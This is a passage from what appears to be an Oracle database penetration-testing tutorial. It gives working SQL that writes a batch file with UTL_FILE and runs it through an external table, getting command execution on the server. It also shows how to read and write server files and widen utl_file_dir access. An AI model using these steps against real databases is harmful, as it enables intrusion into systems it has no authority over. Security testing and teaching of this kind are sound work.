 Step two: Create an executable batch file with desired command:

```sql
declare
 f utl_file.file_type;
 s varchar2(200) := 'echo KOKOKO &gt;&gt; C:/pwned';
begin
 f := utl_file.fopen('ALICE_DIR','test.bat','W');
 utl_file.put_line(f,s);
 utl_file.fclose(f);
end;
/
```

Step three: Prepare the external table `EXTT`, you will need it to run the file:

```sql
CREATE TABLE EXTT (line varchar2(256))
ORGANIZATION EXTERNAL
(TYPE oracle_loader
  DEFAULT DIRECTORY ALICE_DIR
  ACCESS PARAMETERS
  ( RECORDS DELIMITED BY NEWLINE
    FIELDS TERMINATED BY ',')
  LOCATION (alice_dir:'test.bat'))
/
```

Now, just call your batch file with the following command:

```sql
SELECT * from EXTT;
```

The terminal will start to display error messages that the system cannot match the table and invoked file but, in this case, it is not important, as the main objective was to open the executable file, which you have achieved.

`ODAT.py` utility also can implement this attack. However, it requires the privilege `CREATE ANY DIRECTORY`, which, by default, is granted only to `DBA` role, since it attempts to execute the file from any and not only “your” directory.

Read/Write files

Now, let’s proceed to the task of reading and writing the files. If you simply need to read or write a file to the server, you can do it without any Java procedures, which, however, can also handle such tasks. Let’s have a look into `UTL_FILE` package that has the functionality required for working with the file system. The good news is that, by default, it can be accessed by all users with `PUBLIC` role. The bad news is that, by default, this procedure has no access to the entire file system, but only to a directory pre-defined by the administrator. However, it is not uncommon to find a directory parameter specified as `*`, which literally means “access to everything.” You can find this out by using the following command:

```sql
select name, value from v$parameter where name = 'utl_file_dir';
With appropriate rights, you can expand the access by using the following query:
alter system set utl_file_dir='*' scope =spfile;
```

